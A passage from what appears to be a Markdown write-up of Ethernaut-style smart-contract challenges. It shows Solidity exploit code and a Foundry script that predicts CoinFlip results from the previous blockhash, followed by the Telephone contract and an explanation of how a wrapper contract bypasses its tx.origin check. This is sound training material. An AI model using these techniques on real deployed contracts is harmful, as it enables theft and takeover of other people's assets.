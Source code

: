 ```js
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1;
        coinFlipInstance.flip(side);
    }
}

contract CoinFlipSolution is Script {
    CoinFlip public coinFlipInstance = CoinFlip(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        Exploit exploit = new Exploit(coinFlipInstance);
        exploit.attack();
        console.log("Number of wins:", coinFlipInstance.consecutiveWins());
        vm.stopBroadcast();
    }
}
```

### POC

```bash
forge script script/CoinFlipSolution.s.sol --rpc-url $SEPOLIA_URL --tc CoinFlipSolution --broadcast
```

---

## Telephone

### Challenge Code

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

Here, `tx.origin` is the original externally owned account that started the transaction, while `msg.sender` is the immediate caller. The contract allows ownership changes only when called through another contract. We can exploit this by writing a wrapper contract that calls `changeOwner()` on our behalf.
